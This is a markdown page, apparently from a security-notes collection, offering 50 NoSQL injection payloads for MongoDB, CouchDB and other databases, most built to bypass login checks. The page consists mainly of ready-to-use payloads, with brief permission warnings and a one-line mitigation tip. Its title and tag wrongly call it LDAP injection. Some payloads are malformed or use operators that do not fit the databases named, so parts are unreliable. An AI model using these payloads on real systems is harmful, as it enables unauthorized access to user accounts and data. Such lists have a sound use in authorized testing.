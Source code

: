 ```yaml
---
title: "LDAP injection payload"
tags:
  - LDAP_injection
---
```


NoSQL injection is a technique used to exploit vulnerabilities in NoSQL databases by injecting malicious code into queries, similar to SQL injection but tailored to NoSQL query syntax like MongoDB, Cassandra, or CouchDB. Below is a list of 50 example payloads that could be used to test for NoSQL injection vulnerabilities. **Warning**: These payloads are for educational and testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical.

**Note**: The payloads are generalized and may need adaptation depending on the NoSQL database (e.g., MongoDB, CouchDB) and the application's query structure. Always test responsibly in a legal, authorized environment.

### MongoDB-Specific NoSQL Injection Payloads
MongoDB often uses JSON-like query syntax, so payloads target operators like `$ne`, `$eq`, `$gt`, `$regex`, etc.

1. `{"username": {"$ne": null}, "password": {"$ne": null}}` - Bypasses authentication by checking for non-null username/password.
2. `{"username": "admin", "password": {"$gt": ""}}` - Attempts to match any password greater than an empty string.
3. `{"username": {"$eq": "admin"}, "password": {"$exists": true}}` - Checks if the username is "admin" and password exists.
4. `{"$or": [{"username": "admin"}, {"password": "anything"}]}` - Uses `$or` to bypass authentication logic.
5. `{"username": {"$in": ["admin", "user"]}, "password": {"$ne": "wrong"}}` - Tests multiple usernames with a not-equal condition.
6. `{"username": {"$regex": ".*admin.*"}, "password": {"$ne": null}}` - Uses regex to match usernames containing "admin".
7. `{"username": {"$eq": "admin"}, "password": {"$type": 2}}` - Targets string-type passwords.
8. `{"username": {"$gt": ""}, "password": {"$gt": ""}}` - Matches any non-empty username and password.
9. `{"$where": "this.username == 'admin'"}` - Uses JavaScript-based `$where` clause to bypass checks.
10. `{"username": {"$ne": ""}, "password": {"$regex": "^.*$"}}` - Matches any non-empty username and any password.
11. `{"username": {"$eq": "admin"}, "password": {"$nin": ["invalid"]}}` - Excludes specific invalid passwords.
12. `{"username": "admin';return true;//", "password": "anything"}` - JavaScript injection for `$where` queries.
13. `{"username": {"$regex": "^a"}, "password": {"$exists": true}}` - Matches usernames starting with "a".
14. `{"$and": [{"username": "admin"}, {"password": {"$ne": "wrong"}}]}` - Combines conditions to bypass logic.
15. `{"username": {"$eq": "admin"}, "password": {"$size": 0}}` - Targets empty password arrays.
16. `{"username": {"$not": {"$eq": "guest"}}, "password": {"$ne": null}}` - Excludes "guest" usernames.
17. `{"username": {"$all": ["admin"]}, "password": {"$gt": ""}}` - Matches specific username arrays.
18. `{"username": {"$regex": "admin", "$options": "i"}, "password": {"$ne": null}}` - Case-insensitive username match.
19. `{"username": {"$elemMatch": {"$eq": "admin"}}, "password": {"$ne": ""}}` - Targets array elements.
20. `{"$where": "this.password.length > 0"}` - JavaScript to check non-empty passwords.

### General NoSQL Injection Payloads
These payloads target common NoSQL databases or generic query structures.

21. `username=admin&password[$ne]=null` - URL-encoded payload for bypassing authentication.
22. `username=admin&password[$gt]=` - Empty `$gt` to match any password.
23. `username[$eq]=admin&password[$exists]=true` - Checks for existing passwords.
24. `username[$regex]=.*admin.*&password[$ne]=null` - Regex-based username match.
25. `username=admin&password[$in][]=valid&password[$in][]=invalid` - Tests multiple password values.
26. `username[$ne]=guest&password[$ne]=null` - Excludes guest users.
27. `username[$or][][username]=admin&username[$or][][password]=anything` - OR condition in URL.
28. `username[$eq]=admin&password[$type]=string` - Targets string-type passwords.
29. `username=admin&password[$regex]=^.*$` - Matches any password.
30. `username[$not][$eq]=user&password[$ne]=null` - Excludes specific usernames.

### JavaScript Injection Payloads
For databases supporting JavaScript (e.g., MongoDB `$where`).

31. `{"$where": "return true"}` - Always-true condition to bypass authentication.
32. `{"$where": "this.username == 'admin' && this.password != 'wrong'"}` - Specific username/password check.
33. `{"$where": "sleep(1000);return true"}` - Tests for JavaScript execution delay.
34. `{"$where": "this.password == this.password"}` - Trivial true condition.
35. `{"$where": "this.username.length > 0"}` - Matches non-empty usernames.
36. `username=admin';sleep(1000);//&password=anything` - JavaScript delay injection.
37. `{"$where": "this.username.match(/admin/)}` - Regex-based username match in JavaScript.
38. `{"$where": "this.password == 'admin' || true"}` - Forces true with OR.
39. `{"$where": "function(){return true;}"}` - Anonymous function to return true.
40. `{"$where": "this.username == 'admin' && 1==1"}` - Adds trivial true condition.

### CouchDB/Cassandra/Other NoSQL Payloads
These target other NoSQL databases with different query structures.

41. `{"key": {"$eq": "admin"}, "value": {"$ne": null}}` - CouchDB-style key-value injection.
42. `{"selector": {"username": "admin", "password": {"$gt": ""}}}` - CouchDB selector query.
43. `{"selector": {"$or": [{"username": "admin"}, {"password": "test"}]}}` - CouchDB OR condition.
44. `username[$eq]=admin&password[$gt]=0` - Numeric comparison for Cassandra.
45. `{"query": "username = 'admin' OR 1=1"}` - Generic OR injection.
46. `{"filter": {"username": {"$contains": "admin"}}}` - Filter-based injection.
47. `{"username": {"$eq": "admin"}, "password": {"$isNotNull": true}}` - Non-null check.
48. `{"query": {"username": {"$like": "%admin%"}}}` - LIKE-style pattern matching.
49. `{"username": {"$in": ["admin", "root"]}, "password": {"$exists": true}}` - Multi-user check.
50. `{"selector": {"username": {"$regex": ".*"}, "password": {"$ne": null}}}` - Broad regex match.

### Notes
- **Context-Specific**: Payloads must be tailored to the database (e.g., MongoDB uses `$ne`, CouchDB uses `selector`). Test the database type first.
- **Encoding**: For web applications, payloads may need URL or JSON encoding (e.g., `[$ne]` becomes `%5B%24ne%5D`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize inputs, use parameterized queries, and avoid exposing query operators to user input.

